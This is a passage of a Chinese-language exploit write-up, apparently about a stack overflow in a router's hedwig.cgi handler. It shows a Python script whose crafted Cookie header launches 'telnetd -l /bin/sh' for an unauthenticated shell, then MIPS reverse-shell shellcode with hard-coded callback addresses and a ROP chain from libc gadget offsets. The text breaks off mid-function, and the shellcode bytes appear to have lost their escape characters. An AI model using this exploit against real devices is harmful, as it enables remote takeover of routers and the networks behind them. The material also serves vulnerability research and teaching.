 ```
if __name__=="__main__":
    cmd = "telnetd -l /bin/sh"
    fake_cookie=get_payload(969,cmd)
    #fake_cookie = get_payload3(969)
    header = `{`
        'Cookie'        : fake_cookie,
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'Content-Length': '100'
        `}`
    data = `{`'uid':'1234'`}`
    ip=sys.argv[1]
    url="http://"+ip+"/hedwig.cgi"
    r=requests.post(url=url,headers=header,data=data)
    print r.text
```

说明一下，开始的时候不知道加载地址，然后随便试了几个地址，然后就看到执行成功了。执行之后，我们可以看到

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01ef00c1d019628ecb.png)

开启了telnet服务，我们可以直接telnet上去，如下图所示：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t010315039ca4eac446.png)

2）shellcode的方式

这个里面，就是把get_payload函数修改为reverse_shell的部分，感觉也是可以的，shellcode如下：

```
def get_payload2(offset):
    payload= "x26x40x08x01"*4
    payload += "xffxffx04x28xa6x0fx02x24x0cx09x09x01x11x11x04x28"
    payload += "xa6x0fx02x24x0cx09x09x01xfdxffx0cx24x27x20x80x01"
    payload += "xa6x0fx02x24x0cx09x09x01xfdxffx0cx24x27x20x80x01"
    payload += "x27x28x80x01xffxffx06x28x57x10x02x24x0cx09x09x01"
    payload += "xffxffx44x30xc9x0fx02x24x0cx09x09x01xc9x0fx02x24"
    payload += "x0cx09x09x01x79x69x05x3cx01xffxa5x34x01x01xa5x20"
    #payload += "xf8xffxa5xafx01xb1x05x3cxc0xa8xa5x34xfcxffxa5xaf"                  # 192.168.1.177
    payload += "xf8xffxa5xafx00x02x05x3cxc0xa8xa5x34xfcxffxa5xaf"                   # 192.168.3.132
    #payload += "xf8xffxa5xafx64xfex05x3cxc0xa8xa5x34xfcxffxa5xaf"                   # 192.168.100.254
    payload += "xf8xffxa5x23xefxffx0cx24x27x30x80x01x4ax10x02x24"
    payload += "x0cx09x09x01x62x69x08x3cx2fx2fx08x35xecxffxa8xaf"
    payload += "x73x68x08x3cx6ex2fx08x35xf0xffxa8xafxffxffx07x28"
    payload += "xf4xffxa7xafxfcxffxa7xafxecxffxa4x23xecxffxa8x23"
    payload += "xf8xffxa8xafxf8xffxa5x23xecxffxbdx27xffxffx06x28"
    payload += "xabx0fx02x24x0cx09x09x01"
    shellcode = payload
    libc_base = 0x2aaf8000
    sleep_offset = 0x56BD0
    gadget1 = 0x57e50
    gadget2 = 0x3e524
    gadget3 = 0x0000B814
    gadget4 = 0x00037E6C
    data='a'*offset
    data+="a"*0x18
    data+="aaaa" #s0
    data+=p32(gadget2+libc_base) #s1
    data+=p32(sleep_offset+libc_base) #s2
    data+="aaaa" #s3
    data+="aaaa" #s4
    data+="aaaa" #s5
```